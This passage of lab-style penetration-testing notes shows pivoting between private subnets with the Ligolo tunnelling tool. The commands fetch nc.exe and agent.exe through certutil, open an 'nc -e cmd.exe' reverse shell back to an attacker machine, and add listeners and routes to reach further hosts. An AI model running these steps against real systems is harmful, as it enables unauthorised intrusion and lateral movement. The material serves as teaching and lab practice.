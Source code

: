 ```bash
#=>(Found : Ligolo-3 Machine 192.168.119.129) 
#=> exploit RCE on Ligolo-3
##########################################

# [+] # upload netcat and establish a reverse shell on Ligolo-3
# [-] kali -----> Ligolo-3 # we  connect to kali from Ligolo-3
# [-] kali <-- X -- Ligolo-3 # we can't connect to kali from Ligolo-3

# To resolve this issue we need to set up a listener in Ligolo's proxy: Essentially, this listener will be responsible for forwarding traffic from port 8080 on the compromised machine to port 80 on our local Kali machine.

`listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 --tcp` # on ligolo-2
#upload Netcat to Ligolo-2 via Jump Host (Ligolo-1):
#Use Ligolo-1’s IP and port 8080 to transfer files.  
`python -m http.server -port 80` # on kali
`certutil.exe -urlcache -f "http://192.168.119.128:8080/nc.exe" nc.exe` #on Ligolo-3
#Create a New Listener for Reverse Shell:  
#we will use the same technique from earlier we will create a new listener and execute Netcat along with the IP of the Ligolo-1 Machine(Jump Host) and the port we specify with the listener
`listener_add --addr 0.0.0.0:9090 --to 127.0.0.1:999 --tcp`  

#Execute Reverse Shell from Ligolo-2 to Kali:
`nc -lnvp 999` # on kali 
`nc 192.168.119.128 9090 -e cmd.exe`  #on Ligolo-3(Use Ligolo-2 IP and configured port)
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
#Following the familiar pattern, we will create a new Ligolo interface and assume command access on the Ligolo-3 Machine. Using the same commands, we will establish a tunnel with Ligolo, execute the "start" command with the newly created Ligolo interface, and add a route to the new subnet (192.168.21.0). This systematic approach will allow us to extend our network access to the final machine in the 192.168.21.0 subnet.

#With our successful pivot into three subnets, we are now left with just one more subnet to access. This final subnet is associated with the last machine, which has an IP address of 192.168.21.0/24. Our objective is to extend our reach to this machine as well.

################################################
3. `Ligolo-3`: `192.168.119.129` & `192.168.79.128` 
################################################

#1.Upload Ligolo Agent on The Compromised Machine
`python -m http.server -port 80 ` # on kali 
`certutil.exe -urlcache -f "http://192.168.119.128:8080/agent.exe" agent.exe` #on Ligolo-3, upload agent to Ligolo-3 via Jump Host (Ligolo-2)

#2.Setup Tun Interface on Kali:
`sudo ip tuntap add user "your-Kali-User" mode tun ligolo-3`  
`sudo ip link set ligolo-3 up`  

#4.execute Ligolo Agent to Compromised Machine:  
# To run Ligolo's Agent on the Ligolo-3 Machine, we'll adopt a strategy similar to the reverse shell. we must also create a new listener on Ligolo-2. This listener on Ligolo-2 will be essential for receiving the connection on our Ligolo proxy and ensuring the connection is established successfully.
`listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp` 
`.\agent.exe -ignore-cert -connect 192.168.8.128:11601` # on ligolo-3

#5.Interact with Sessions via Ligolo Proxy**:  
`session` #3 Ligolo-3
`ifconfig` #192.168.79.128
`start --tun ligolo-3` #establishing a connection between kai & Ligolo-3

#6.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.79.0/24 dev ligolo-3`  
```